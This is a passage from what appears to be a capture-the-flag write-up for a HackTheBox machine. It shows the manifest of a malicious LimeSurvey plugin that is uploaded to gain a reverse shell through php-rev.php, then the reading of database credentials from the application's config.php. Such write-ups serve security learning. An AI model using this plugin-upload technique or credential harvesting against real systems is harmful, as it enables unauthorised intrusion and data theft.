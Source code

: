 Contents of `Config.xml`:

```shell
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>gitblanc</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>gitblanc</author>
        <authorUrl>https://github.com/gitblanc</authorUrl>
        <supportUrl>https://github.com/gitblanc</supportUrl>
        <version>6.6.4</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : gitblanc]]></description>
    </metadata>

    <compatibility>
        <version>6.0</version>
        <version>5.0</version>
        <version>4.0</version>
        <version>3.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

I uploaded, then I click on Install:

![](Pasted%20image%2020250509194330.png)

==Do not activate it==

> I now open `http://take-survey.heal.htb/upload/plugins/gitblanc/php-rev.php` and got a reverse shell :D

## Pivoting

I can search for the LimeSurvey configuration file inside `/var/www/limesurvey/application/config/config.php`:

```php
 'db' => array(
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
                        'emulatePrepare' => true,
                        'username' => 'db_user',
                        'password' => 'AdmiDi0_pA$$w0rd',
                        'charset' => 'utf8',
                        'tablePrefix' => 'lime_',
                ),
```

